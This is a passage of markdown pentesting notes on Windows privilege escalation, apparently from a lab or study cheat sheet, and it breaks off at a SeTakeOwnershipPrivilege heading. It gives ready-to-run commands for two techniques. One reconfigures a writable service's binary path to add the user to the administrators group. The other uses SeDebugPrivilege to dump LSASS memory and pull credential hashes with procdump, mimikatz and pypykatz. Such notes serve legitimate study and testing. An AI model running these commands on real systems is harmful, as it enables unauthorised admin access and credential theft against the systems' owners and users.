 ## Binary path

### Enumeration

- PowerUP we should see the service exploitable under the `[*] Checking service permissions`  

**OR**

- We can use [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) `accesschk64.exe -wuvc Everyone *`
  - Will list service we can write and to which everyone has access (in our example the service is daclsvc)
![image](https://user-images.githubusercontent.com/96747355/162620616-800737e9-9762-4a0e-b06d-41ea822abd32.png)  

### Exploitation

- `sc config daclsvc binpath= "net localgroup administrators user /add"`
- `sc start daclsvc`
- We should be added to the administrators group `net localgroup administrators`

## Escalation via User Privileges

### SeDebugPrivilege

#### Enumeration

- `whoami /priv` the `SeDebugPrivilege` should be listed

#### Exploitation

- `procdump.exe -accepteula -ma lsass.exe lsass.dmp` We will use ProcDump from the SysInternals suite to leverage this privilege and dump the lsass process memory.
- We can launch mimikatz from our target
  - `mimikatz.exe`
  - `log`
  - `sekurlsa::minidump lsass.dmp`
  - `sekurlsa::logonpasswords`
  - And now we can take the hashes we need
- If mimikatz does not work and if we have RDP we can dump lsass from the taskmanager (tab "Details" right click on the lsass process and select "Create dump file"
- We can then take the dump to our attack machine et use pypykatz 
  - `pypykatz lsa minidump lsass.DMP`

### SeTakeOwnershipPrivilege

- With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, Remote Code Execution (RCE) or Denial-of-Service (DOS). In this case we need a file to target.

#### Enumeration
